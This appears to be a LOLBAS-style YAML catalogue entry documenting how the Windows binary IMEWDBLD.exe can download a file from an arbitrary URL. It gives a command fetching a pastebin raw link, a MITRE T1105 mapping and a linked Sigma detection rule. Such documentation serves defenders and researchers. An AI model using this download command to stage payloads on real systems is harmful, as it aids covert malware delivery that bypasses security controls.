 ```yaml
---
Name: IMEWDBLD.exe
Description: Microsoft IME Open Extended Dictionary Module
Author: 'Wade Hickey'
Created: 2020-03-05
Commands:
  - Command: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://pastebin.com/raw/tdyShwLw
    Description: IMEWDBLD.exe attempts to load a dictionary file, if provided a URL as an argument, it will download the file served at by that URL and save it to %LocalAppData%\Microsoft\Windows\INetCache\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION> or %LocalAppData%\Microsoft\Windows\INetCache\IE\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/bea6f18d350d9c9fdc067f93dde0e9b11cc22dc2/rules/windows/network_connection/net_connection_win_imewdbld.yml
Resources:
  - Link: https://twitter.com/notwhickey/status/1367493406835040265
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

